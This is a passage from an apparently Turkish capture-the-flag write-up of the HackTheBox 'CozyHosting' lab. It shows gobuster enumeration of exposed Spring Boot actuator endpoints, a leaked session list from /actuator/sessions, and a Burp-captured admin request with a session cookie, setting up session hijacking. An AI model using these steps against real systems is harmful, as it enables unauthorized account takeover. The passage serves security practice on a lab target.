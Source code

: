 Gobuster aracı ile başka bir deneme gerçekleştirdim:

```bash
gobuster dir -u cozyhosting.htb -w /opt/useful/SecLists/Discovery/Web-Content/spring-boot.txt
```

```text title="Output" hl_lines="23"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/useful/SecLists/Discovery/Web-Content/spring-boot.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/sessions    (Status: 200) [Size: 148]
Progress: 112 / 113 (99.12%)
===============================================================
Finished
===============================================================
```

Burada bulunan `actuator/sessions` dizini ilgi çekiciydi. Durum kodu da 200 olduğu için kontrol etmekte fayda gördüm. Bu sebeple [http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions) adresine gittikten sonra aşağıdaki bilgilerle karşılaştım:

```json title="JSON"
{
  "E51030DBE8CC41A1108DD92160277602": "kanderson",
  "BBC71311542EF412AC36961BF65E3019": "UNAUTHORIZED"
}
```

Burp Suite aracının `Proxy` sekmesinde `Intercept` seçeneği aktif iken ve FoxyProxy tarayıcı eklentisinde Burp profili (127.0.0.1:8080) etkin durumda iken [http://cozyhosting.htb/admin](http://cozyhosting.htb/admin) adresine ulaşmayı denedim (Gobuster ile bulunmuştu).

Burp aşağıdaki bilgileri yakaladı:

```text title="Request"
GET /admin HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=6E08E4D3A1DE7526593ECEC6EEBB5816
Upgrade-Insecure-Requests: 1
```
